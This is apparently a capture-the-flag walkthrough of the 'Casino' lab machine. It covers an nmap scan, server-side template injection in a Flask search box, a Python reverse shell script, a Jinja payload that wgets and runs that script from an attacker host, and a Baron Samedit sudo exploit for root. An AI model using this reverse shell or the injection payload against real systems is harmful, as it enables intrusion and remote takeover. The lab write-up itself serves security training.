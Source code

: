 In this walkthrough, we'll go over one of the machines called ***Casino*** from the challenge labs on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).

![Casino IP](casinoIP.png)

Let's start the scanning process with nmap:
```bash
nmap -sTV -p- -n 172.31.3.7
```
We'll see that there are three ports open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-28 20:57 EDT
Nmap scan report for 172.31.3.7
Host is up (0.023s latency).

PORT     STATE    SERVICE    VERSION
22/tcp   open     ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:5c:51:eb:90:a2:79:74:42:3b:af:8b:64:66:2f:a2 (RSA)
|   256 d5:76:0c:92:ef:e1:83:9e:37:63:46:00:eb:9d:7b:05 (ECDSA)
|_  256 cd:4f:f8:48:9a:c7:38:85:a2:05:9c:3b:44:20:01:8c (ED25519)
80/tcp   open     http       Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: River - Index
9000/tcp filtered cslistener
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.07 seconds

```
It looks like a casino platform is being served on port 80:

![Casino Index Page](casino-index-html.png)

While browsing, on the team page, we can see that one of the team members is a Flask developer:

![Casino Team Page](casino-teams.png)

After seeing this, I can check for a potential SSTI (Server Side Template Injection) vulnerability. I followed the process from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
Now, in the search box we can do the following tests:
![SSTI Steps](casino-SSTI-steps.png)

1. ![Test1](casino-SSTI-test-1.png)

2. ![Test2](casino-SSTI-test-2.png)

3. ![Test3](casino-SSTI-test-3.png)

4. ![Test4](casino-SSTI-id.png)

5. ![Test5](casino-SSTI-passwd.png)

6. ![Test6](casino-SSTI-ls.png)

7. ![Test7](casino-SSTI-python3.png)
    
From, our strategy could be creating a Python file with a reverse shell and upload it to the server, then run it within the same script. The Python file looks like this and we save it as ***revshell.txt***:
```python
#!/usr/bin/python3

import socket
import subprocess
import os
import pty

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("YourIPAddress", 5555)) # Don't forget to put your IP Address here.
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

Let's start a Python server to host this file with `sudo python3 -m http.server 80`
Now, by using the following script we can upload and run the Python file `{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('wget http://10.10.0.18/revshell.txt -O /tmp/revshell.py;python3 /tmp/revshell.py').read() }}`

![Casino Foothold](casino-SSTI-revshell.png)

In terms of the privilege escalation, I look at the sudo version and OS distribution:

![Casino OS/Sudo Version](casino-OS-release.png)

At this point, we can check if this machine is vulnerable to ***CVE-2021-3156 (Sudo Baron Samedit)*** vulnerability. We can use the following repo [Sudo Baron Samedit](https://github.com/worawit/CVE-2021-3156)
From this repo, we can use ***exploit_nss.py*** to see if we can get a root shell:

![Casino Root](casino-root.png)

And we successfully gain the root level privileges.
I hope you enjoyed this walkthrough..

Thank you for reading...

[<= Go Back to Cyberseclabs Walkthrouhgs](CyberseclabsWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
